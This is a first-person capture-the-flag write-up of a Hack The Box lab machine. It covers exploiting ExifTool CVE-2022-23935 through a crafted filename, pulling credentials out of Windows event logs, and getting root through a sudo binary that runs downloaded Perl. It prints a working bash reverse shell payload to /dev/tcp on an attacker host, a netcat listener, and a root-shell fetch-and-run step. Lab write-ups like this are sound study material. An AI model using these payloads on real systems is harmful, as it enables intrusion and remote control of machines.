


Exploitation Summary
Exploitation process: The target machine was running a web application at
eforenzics.htb that allowed uploading images for metadata analysis using ExifTool
version 12.37, which is vulnerable to CVE-2022-23935. This vulnerability permits command
injection through improper sanitization of pipe characters in filenames. By crafting a malicious
filename ending with a pipe symbol, I was able to execute arbitrary commands and obtain a
reverse shell as the www-data user.
During enumeration, I discovered a Microsoft Outlook message file (.msg) belonging
to user smorton, which contained an attached ZIP file with Windows Event Log files.
After extracting and analyzing the event logs, particularly failed login attempts (Event ID
4625), I found cleartext credentials accidentally entered as a username. These credentials were
valid for SSH access as smorton, granting user-level access.
For privilege escalation, the user had sudo permissions to execute a custom binary located at
/usr/bin/binary. Through reverse engineering with Ghidra, I discovered the binary
performed several checks and then used curl to download a file from a user-provided URL,
executed it as a Perl script with root privileges, and immediately deleted it. By hosting a
malicious Perl script that spawned a shell and providing the correct hardcoded validation
string, I was able to execute code as root and complete the machine.
Technologies/Exploits: ExifTool CVE-2022-23935 command injection, Microsoft Outlook message file extraction (.msg to .eml conversion), Windows Event Log analysis (EVTX format), binary reverse engineering, sudo privilege abuse through custom binary exploitation.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and running services on the target machine:

The scan reveals SSH on port 22 and an HTTP server on port 80. I add eforenzics.htb to
my /etc/hosts file to resolve the domain properly.
Web Application Enumeration
Navigating to the web application, the most interesting functionality appears to be an image upload feature for forensic analysis:
Running whatweb provides additional information about the target:
http://eforenzics.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.197], JQuery[3.4.1], Meta-Author[eForenzics], Script, Title[eForenzics - Premier Digital Forensics], UncommonHeaders[upgrade]Some interesting observations from this output:
- Apache version 2.4.41 from 2019, which might have known vulnerabilities
- An uncommon
Upgrade: h2header, indicating HTTP/2 support - The application is built with Bootstrap and jQuery
ExifTool Version Discovery and Vulnerability Research
When I upload an image to the analysis functionality, the application provides a link to view the extracted metadata:

The output reveals that the application is using ExifTool version 12.37 to process uploaded images. After researching this version, I discover it's vulnerable to CVE-2022-23935, a critical command injection vulnerability.
Understanding CVE-2022-23935
This vulnerability exists because ExifTool 12.37 does not properly sanitize pipe (|)
characters at the end of filenames. When a filename ends with a pipe symbol, ExifTool interprets it
as a shell command to execute, allowing arbitrary command injection. This is particularly dangerous
when combined with a web application that processes user-uploaded files.
Initial Access - Exploiting ExifTool Command Injection
After examining several proof-of-concept exploits, I create a minimal exploit script to obtain a reverse shell. The exploit works by embedding a base64-encoded reverse shell payload in the filename followed by a pipe symbol:
ATTACKER_IP="10.10.16.2"
ATTACKER_PORT="443"
PAYLOAD="/bin/bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
ENCODED=$(echo -n "$PAYLOAD" | base64)
FILENAME="echo $ENCODED | base64 -d | bash |"
echo "/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k=" | base64 -d > "$FILENAME"The script creates a minimal valid JPEG file with a malicious filename. When ExifTool processes this file, it:
- Decodes the filename which ends with a pipe symbol
- Executes the command before the pipe: decoding the base64 payload
- Runs the decoded bash reverse shell command
I set up a netcat listener to catch the reverse shell:
sudo nc -lvnp 443After uploading the malicious image file to the web application, I successfully receive a connection
as the www-data user.
Post-Exploitation Enumeration - Discovering smorton's Files
During enumeration, I check the /home directory and discover a user named
smorton. Searching for files owned by this user reveals an interesting file:
find / -user smorton 2>/dev/nullThe search returns:
/home/smorton
/usr/local/investigation/Windows Event Logs for Analysis.msgChecking the file type:
file 'Windows Event Logs for Analysis.msg'Output:
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook MessageThis is a Microsoft Outlook message file, which could contain valuable information.
Extracting and Analyzing the Outlook Message
I transfer the .msg file to my attacking machine for analysis. To properly extract its
contents, I install the necessary tools:
sudo apt install libemail-outlook-message-perlThis package includes msgconvert, which converts Outlook .msg files to the
more standard .eml format:
msgconvert 'Windows Event Logs for Analysis.msg'I open the converted message using LibreOffice's email viewer:
xdg-open 'Windows Event Logs for Analysis.eml'The email contains the following message:
Hi Steve,
Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures.
Regards,
Tom
More importantly, the email has a ZIP file attached containing Windows Event Logs.
Extracting the ZIP Attachment
To extract the attachment from the .eml file, I use the munpack utility
from the mpack package:
sudo apt install mpack
munpack 'Windows Event Logs for Analysis.eml'The tool extracts:
part1 (application/rtf)
evtx-logs.zip (application/octet-stream)Unzipping the archive reveals a Windows Event Log file:
file security.evtxOutput:
security.evtx: MS Windows 10-11 Event Log, version 3.2, 238 chunks (no. 237 in use), next record no. 20013Analyzing Windows Event Logs - Credential Discovery
To analyze the EVTX file on Linux, I install the Python EVTX parsing library:
sudo apt install python3-evtxI convert the binary event log to XML format for easier analysis:
evtx_dump.py security.evtx > security.xmlThis process takes some time but produces a detailed XML file with all event log entries.
Searching for Failed Login Attempts
In Windows Event Logs, failed login attempts are recorded with Event ID 4625. These logs often contain valuable information, including cases where users accidentally type their password in the username field. I search the XML file for these events:
grep -i "EventID.*4625" security.xmlThe search returns only 13 matches, making manual review feasible. Examining the context around these events, I discover a suspicious entry:
<EventID Qualifiers="">4625</EventID>
<Version>0</Version>
<Level>0</Level>
<Task>12544</Task>
<Opcode>0</Opcode>
<Keywords>0x8010000000000000</Keywords>
<TimeCreated SystemTime="2022-08-01 19:15:15.374769"></TimeCreated>
<EventRecordID>11373331</EventRecordID>
<Correlation ActivityID="{6a946884-a5bc-0001-d968-946abca5d801}" RelatedActivityID=""></Correlation>
<Execution ProcessID="628" ThreadID="6800"></Execution>
<Channel>Security</Channel>
<Computer>eForenzics-DI</Computer>
<Security UserID=""></Security>
</System>
<EventData>
<Data Name="SubjectUserSid">S-1-5-18</Data>
<Data Name="SubjectUserName">EFORENZICS-DI$</Data>
<Data Name="SubjectDomainName">WORKGROUP</Data>
<Data Name="SubjectLogonId">0x00000000000003e7</Data>
<Data Name="TargetUserSid">S-1-0-0</Data>
<Data Name="TargetUserName">Def@ultf0r3nz!csPa$$</Data>The TargetUserName field contains what appears to be a password rather than a username:
Def@ultf0r3nz!csPa$$. This is a classic mistake where a user accidentally entered their
password in the username field during a failed login attempt.
SSH Access as smorton
I test these credentials via SSH with the user smorton:
ssh smorton@10.10.11.197The credentials are valid, granting me SSH access as smorton. I can now retrieve the
user flag.
Privilege Escalation - Analyzing Sudo Permissions
After gaining user access, I check what sudo privileges smorton has:
sudo -lOutput:
Matching Defaults entries for smorton on investigation:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User smorton may run the following commands on investigation:
(root) NOPASSWD: /usr/bin/binaryThe user can execute /usr/bin/binary as root without a password. Running it without
arguments shows:
sudo /usr/bin/binaryOutput:
Exiting...The binary requires specific arguments. I transfer it to my machine for reverse engineering with Ghidra.
Binary Analysis with Ghidra
After analyzing the binary in Ghidra, I identify several key validation checks and the main functionality.
Validation Check 1: Argument Count
The binary expects exactly 3 arguments (including the binary name itself):
if (param_1 != 3) {
puts("Exiting... ");
exit(0);
}Validation Check 2: Root Privileges
The binary must be executed with root privileges (UID 0):
_Var1 = getuid();
if (_Var1 != 0) {
puts("Exiting... ");
exit(0);
}Validation Check 3: Hardcoded String
The third argument must be exactly the string lDnxUysaQn:
iVar2 = strcmp(*(char **)(param_2 + 0x10), "lDnxUysaQn");
if (iVar2 != 0) {
puts("Exiting... ");
exit(0);
}Main Functionality: Download and Execute
After passing all validation checks, the binary:
- Opens a file named
lDnxUysaQnfor writing - Uses curl to download content from a user-provided URL (second argument)
- Saves the downloaded content to the file
- Executes the file as a Perl script with root privileges
- Deletes the file afterwards
The relevant decompiled code:
puts("Running... ");
__stream = fopen(*(char **)(param_2 + 0x10), "wb");
uVar3 = curl_easy_init();
curl_easy_setopt(uVar3, 0x2712, *(undefined8 *)(param_2 + 8));
curl_easy_setopt(uVar3, 0x2711, __stream);
curl_easy_setopt(uVar3, 0x2d, 1);
iVar2 = curl_easy_perform(uVar3);
if (iVar2 == 0) {
iVar2 = snprintf((char *)0x0, 0, "perl ./%s", __s);
__s_00 = (char *)malloc((long)iVar2 + 1);
snprintf(__s_00, (long)iVar2 + 1, "perl ./%s", __s);
fclose(__stream);
curl_easy_cleanup(uVar3);
setuid(0);
system(__s_00);
system("rm -f ./lDnxUysaQn");
}Exploiting the Binary for Root Access
Understanding the binary's behavior, I can now exploit it to gain root access. The attack strategy is:
- Create a malicious Perl script that spawns a root shell
- Host the script on my attacking machine
- Execute the binary with sudo, providing my server URL and the hardcoded validation string
- The binary will download and execute my Perl script as root
Creating the Malicious Perl Script
I create a simple Perl script that executes a shell:
exec "/bin/sh";I save this as xd.pl and start a Python HTTP server to host it:
python3 -m http.server 8000Executing the Exploit
On the target machine, I execute the binary with the correct arguments:
sudo /usr/bin/binary http://10.10.16.2:8000/xd.pl lDnxUysaQnThe binary outputs:
Running...And I receive a root shell:
# whoami
rootMy Python HTTP server confirms the download:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.197 - - "GET /xd.pl HTTP/1.1" 200 -With root access, I can retrieve the root flag and complete the machine.